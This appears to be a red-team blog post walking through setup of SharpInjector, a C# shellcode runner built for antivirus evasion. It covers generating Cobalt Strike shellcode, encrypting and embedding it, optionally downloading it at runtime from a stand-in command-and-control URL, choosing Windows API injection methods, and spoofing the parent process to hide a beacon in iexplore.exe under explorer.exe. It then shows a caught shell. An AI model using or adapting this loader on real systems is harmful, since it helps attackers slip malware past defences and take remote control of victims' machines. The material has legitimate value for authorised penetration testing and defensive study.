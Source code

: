 ```yaml
---
layout: post
title: SharpInjector
subtitle: Experimenting with a shellcode runner
thumbnail-img: /assets/posts/kerberos-conversion/thumb.png
share-img: /assets/posts/kerberos-conversion/thumb.png
tags: [C#, shellcode runner, SharpInjector]
---
```

<img alt="C#" src="https://img.shields.io/badge/c%23%20-%23239120.svg?&style=for-the-badge&logo=c-sharp&logoColor=white"/><a href="https://github.com/tw1sm/SharpInjector"><img width=40px src="https://github.githubassets.com/images/modules/logos_page/Octocat.png" alt="octocat"></a>



Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had sucess with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00Fist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [scatterbrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

1. Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}

<br>

2. Clone the project and transfer your `.bin` file over the the system you're generating the payload on

    ~~~
    git clone https://github.com/tw1sm/SharpInjector.git
    ~~~
<br>

3. Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
    ```csharp
    public static string Enc(string data)
            {
                string enc = "";
                string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
    ```
<br>

4. Build the `ScEncryptor` project 
<br>

5. Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will automatically be placed into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

1. Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project
    ```csharp
    // Decryptor func
    public static string Dec(string ciphertext)
    {
        string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
    ```
<br>

2. Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#
    ```csharp
    const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
    ```
<br>

3. On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that a child will be spawned from. `explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in.
    ```csharp
    string ParentName = "explorer"; // CHANGE THIS: name of parent process
    string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
    ```
<br>

4. Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
    ```csharp
    string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
    ```
<br>

5. Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}